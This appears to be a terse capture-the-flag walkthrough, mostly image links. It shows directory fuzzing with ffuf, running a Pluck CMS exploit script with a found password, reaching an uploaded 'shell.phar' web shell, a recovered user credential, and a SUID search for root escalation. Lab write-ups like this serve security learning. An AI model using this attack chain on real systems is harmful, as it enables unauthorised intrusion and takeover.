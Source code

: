 62.173.140.174:18000

![image](https://user-images.githubusercontent.com/62753044/232470451-dc12ae4f-c0ad-4eea-9330-2185711e60fc.png)

ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt:FUZZ -u http://62.173.140.174:18000/FUZZ.php

![image](https://user-images.githubusercontent.com/62753044/232470497-7b480313-30a0-4879-a9ca-37ae333b8f88.png)

https://www.exploit-db.com/

![image](https://user-images.githubusercontent.com/62753044/232470532-377d213e-3613-422f-aae1-80e05482bda5.png)

![image](https://user-images.githubusercontent.com/62753044/232470554-d0c0698a-09fd-4736-96dc-aa0d2ddeec97.png)

![image](https://user-images.githubusercontent.com/62753044/232470562-9bc477bf-a32d-4463-941b-c3b7a7cf7306.png)

![image](https://user-images.githubusercontent.com/62753044/232470572-9649635e-19f9-48b5-a5a9-5bb9157d3471.png)

python3 pluck.py 62.173.140.174 18000 liverpool ""

![image](https://user-images.githubusercontent.com/62753044/232470608-b779d938-00d2-4476-831d-eefdd7a53707.png)

http://62.173.140.174:18000/files/shell.phar

![image](https://user-images.githubusercontent.com/62753044/232474643-5a385d43-d50c-435c-8ae2-de6178742d6c.png)

![image](https://user-images.githubusercontent.com/62753044/232474961-ca2edc00-f685-49af-92a0-09ba6cdd80ea.png)

![image](https://user-images.githubusercontent.com/62753044/232475153-64a9d3a6-963d-4f99-b7de-9706b7a603d1.png)

john:j0hnl0v3c0d3by

![image](https://user-images.githubusercontent.com/62753044/232475687-4d38cde6-01b5-4c68-bf2c-ae6e52301aa6.png)

![image](https://user-images.githubusercontent.com/62753044/232470645-8a389a66-130a-4638-a106-f03117839217.png)

find / -user root -perm -4000 -print 2>/dev/null

![image](https://user-images.githubusercontent.com/62753044/232470696-90df487f-fb18-46ce-af41-71edefcf2321.png)

![image](https://user-images.githubusercontent.com/62753044/232472019-89153e96-0a60-4445-bc7f-90ca95d223bb.png)

![image](https://user-images.githubusercontent.com/62753044/232472463-03194abf-c54b-490f-ba9d-fd53099fdb69.png)

![image](https://user-images.githubusercontent.com/62753044/232477341-c427f78a-086e-4ced-ac7e-ce52ffb46097.png)

![image](https://user-images.githubusercontent.com/62753044/232477427-b25ea36b-500f-479c-a4f8-8a9cc5911017.png)

![image](https://user-images.githubusercontent.com/62753044/232477567-00049d88-eafc-4b8b-8ee4-2ce86000df56.png)

